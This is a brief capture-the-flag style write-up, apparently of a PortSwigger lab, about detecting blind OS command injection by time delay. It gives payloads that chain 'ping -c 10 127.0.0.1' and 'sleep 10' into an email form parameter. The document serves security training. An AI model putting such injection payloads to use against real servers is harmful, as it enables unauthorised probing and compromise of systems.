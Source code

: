 ## Lab Description:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/6bc8b48c-8ac2-4bff-adad-b947cafc1081)

## Solution:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ef93108c-cddd-4882-93ae-2116d15d8cc8)
```sql
email=jay%40gmail.com||ping+-c+10+127.0.0.1||
```
with ping command we can delay the response by 10 seconds 
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/113502bb-c43a-4304-833e-b4f673dd005f)
```sql
email=jay%40gmail.com||sleep+10||
```
By adding the & sleep # (Note the space before & and after #) / & sleep 10 &(URL-encode before sending) , we can see that the email parameter is vulnerable to command injection vulnerability, since there was time delay of 10 seconds.
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e0fb81c6-d282-4467-8a68-b6a85673aff5)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/1b5dd773-8a9f-4a30-a5f2-bb2ad9e5fa1d)

